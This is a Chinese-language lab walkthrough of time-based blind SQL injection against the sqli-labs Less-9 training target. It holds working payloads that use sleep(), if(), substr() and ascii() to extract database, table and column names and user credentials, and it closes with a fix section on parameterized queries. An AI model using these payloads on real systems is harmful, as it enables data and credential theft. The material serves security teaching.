






# SQL注入-时间盲注漏洞复现（sqli-labs Less-9）

## 一、漏洞简介

时间盲注是 SQL 注入中适用性最广的一种技术。当页面既没有数据回显、也没有报错信息，甚至连真/假状态都看不出差异时，就需要用到时间盲注。攻击者通过 `if()` 和 `sleep()` 函数，让数据库在条件为真时延迟响应，条件为假时立即响应，从而从响应时间的差异中逐位猜解数据。

**影响版本**：PHP + MySQL（完全无回显、无报错、无状态差异的场景）

**漏洞危害**：数据库敏感信息泄露、数据篡改、甚至获取服务器控制权

## 二、实验环境

PHPStudy（Apache + MySQL）搭建的 sqli-labs 靶场 Less-9，浏览器直接访问。

## 三、时间盲注 vs 布尔盲注

Less-8 布尔盲注：页面在条件为真和假时显示不同内容（"You are in..." vs 空白），攻击者靠“看页面”判断结果。

Less-9 时间盲注：页面无论条件真假都显示相同内容，攻击者靠“等时间”判断结果。条件为真时页面延迟 N 秒，条件为假时页面秒开。

时间盲注比布尔盲注更慢，但适用性更强。在完全没有视觉反馈的极端场景下，时间盲注是获取数据的最后手段。

## 四、漏洞复现步骤

### 4.1 确认注入点

访问 Less-9：

http://127.0.0.1/sqli-labs/Less-9/?id=1

页面显示 "You are in..."，正常回显。

在参数后添加单引号测试：

http://127.0.0.1/sqli-labs/Less-9/?id=1'

页面仍然显示 "You are in..."，和正常页面一模一样，无法通过视觉判断是否存在注入。

用时间延迟验证：

?id=1' and sleep(5)--+

浏览器等待约 5 秒后页面才加载完成，说明 `sleep(5)` 被成功执行，注入点存在。

> **sleep() 函数**：`sleep(N)` 让数据库暂停 N 秒再返回结果。攻击者通过观察页面响应时间来判断 `sleep()` 是否被执行。

### 4.2 确认延迟判断机制

条件为真时触发延迟：

?id=1' and if(1=1, sleep(5), 0)--+

页面延迟 5 秒（条件 1=1 恒为真，执行 sleep(5)）。

条件为假时不触发延迟：

?id=1' and if(1=2, sleep(5), 0)--+

页面秒开（条件 1=2 恒为假，执行 0 即什么都不做）。

> **if() 函数**：`if(条件, 真时执行, 假时执行)`。时间盲注的核心机制，当猜测的条件成立时执行 `sleep()` 制造延迟，条件不成立时不做任何事。攻击者根据响应时间判断猜测是否正确。

### 4.3 猜数据库名长度

?id=1' and if(length(database())=8, sleep(5), 0)--+

页面延迟约 5 秒，说明条件为真，数据库名长度为 8。

如果长度不对，页面会秒开，逐一修改数字继续尝试即可。

### 4.4 猜数据库名第一个字母

?id=1' and if(ascii(substr(database(),1,1))=115, sleep(5), 0)--+

页面延迟约 5 秒，说明第一个字母的ASCII码是115，对应字母 `s`。

如果ASCII码不对，页面会秒开，逐一修改ASCII码（a-z对应97-122）继续尝试。

### 4.5 猜完整数据库名

重复上述步骤，修改 `substr()` 的第二个参数来截取不同位置的字符。每猜对一个字母页面会延迟5秒，猜错则秒开。

第1个字母：ascii=115 → s

第2个字母：ascii=101 → e

第3个字母：ascii=99 → c

第4个字母：ascii=117 → u

第5个字母：ascii=114 → r

第6个字母：ascii=105 → i

第7个字母：ascii=116 → t

第8个字母：ascii=121 → y

拼接得到完整数据库名：`security`

### 4.6 猜表名

猜解 `security` 库下的表名。先猜表名长度，再逐个字母猜。用 `limit` 切换不同的表：

?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101, sleep(5), 0)--+

逐个位置猜解，得到第一个表名为 `emails`。修改 `limit` 参数继续猜其他表名，依次得到 `referers`、`uagents`、`users`。

### 4.7 猜列名（以users表为例）

同样用时间盲注逐个猜解 `users` 表的列名：

第一个列名：`id`

第二个列名：`username`

第三个列名：`password`

### 4.8 猜数据

逐行逐字符猜解 `users` 表中的用户名和密码。每次猜对一个字符需要等待5秒，猜错则秒开继续试下一个ASCII码。最终获取所有用户凭据。

## 五、漏洞原理分析

正常SQL语句（Less-9源码）：

SELECT * FROM users WHERE id='$id' LIMIT 0,1

攻击者输入：1' and if(ascii(substr(database(),1,1))=115, sleep(5), 0)--+

拼接后SQL：

SELECT * FROM users WHERE id='1' and if(ascii(substr(database(),1,1))=115, sleep(5), 0)--+' LIMIT 0,1

攻击原理：

第一步，用 `and` 拼接一个条件判断语句。第二步，`if()` 函数判断条件是否成立。第三步，如果条件成立，执行 `sleep(5)`，数据库等待5秒后返回，页面明显延迟。第四步，如果条件不成立，执行 `0`（什么都不做），页面立即返回。攻击者根据响应时间逐位还原数据。

时间盲注的本质是把“数据差异”转化为“时间差异”。无论页面多么单调，响应时间是攻击者永远能观测到的信号。

## 六、修复方案

最有效的修复方式是使用**参数化查询/预编译**（PDO或MySQLi的prepare方法），从根源消除注入。只要用户输入不与SQL语句拼接，任何注入手法都无从下手。

辅助措施包括：关闭数据库错误回显（`display_errors=Off`）、对输入中的特殊字符进行过滤或转义、数据库账户遵循最小权限原则仅授予必要权限。需要注意的是，即使关闭了所有回显和报错，时间盲注依然可以工作，因此参数化查询才是根本解决方案。

## 七、总结

时间盲注是SQL注入中适用性最广的技术，核心机制是通过 `if()` 和 `sleep()` 将“数据差异”转化为“时间差异”。关键函数为 `if(条件, sleep(N), 0)`、`substr()` 截取字符、`ascii()` 字符转ASCII码。

最大的缺点是速度极慢，每次判断需要等待数秒，完整获取一个数据库名可能需要数十分钟甚至更久。但无论页面多么“沉默”，时间盲注总能找到突破口。在联合注入和报错注入都失效的极端场景下，时间盲注是最后的办法。

## 八、参考链接

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- sqli-labs靶场: https://github.com/Audi-1/sqli-labs
